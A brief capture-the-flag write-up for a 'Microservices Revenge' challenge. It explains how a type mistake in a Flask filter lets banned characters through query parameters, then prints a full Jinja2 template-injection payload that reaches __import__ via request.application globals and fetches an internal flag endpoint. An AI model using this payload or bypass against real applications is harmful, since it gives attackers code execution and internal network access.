 # Microservices Revenge

This one's kinda funny

So there's this guy who has a bunch of microservices (docker containers), 4 this time, `gateway`, `home_page`, `admin_page`, and `flag_page`

`gateway` now has a few banned chars but will now also send the cookies over

`home_page` lets you put any html into the page, but its kinda useless

`admin_page` is even shorter now, but crucially it passes unsanitised data from cookies into `render_template_string`

`flag_page` has the flag but will only show it if you access this endpoint `/flag` which is not accessible with `gateway`

the banned characters mostly prevent template string shenanigans, so its a bit sus

but theres an error

in the `is_sus` function, the filter, its typed like this
```py
def is_sus(microservice: str, cookies: dict) -> bool
```
but is called like this
```py
if is_sus(request.args.to_dict(), request.cookies.to_dict()):
```

notice the first arg is decidedly not a `str`

so basically the filter works for cookies but not for query parameters

so we set `?code=_` (`_` is banned) and we can then access it from the cookie with `{% set us = request.args.code %}`

then its just standard template injection vuln, just use `urllib` to get the flag

in conclusion:
1. set cookie `user` to `
{% set us = request.args.code %} {% set urllib = request.application[us+us+"globals"+us+us][us+us+"builtins"+us+us][us+us+"import"+us+us]("urllib") %} {% set fp = urllib.request.urlopen("http://rflagpage/flag") %} {{ fp.read().decode() }} `
2. access the url `34.124.157.94:5005/?service=adminpage&code=_`

enjoy flag

:)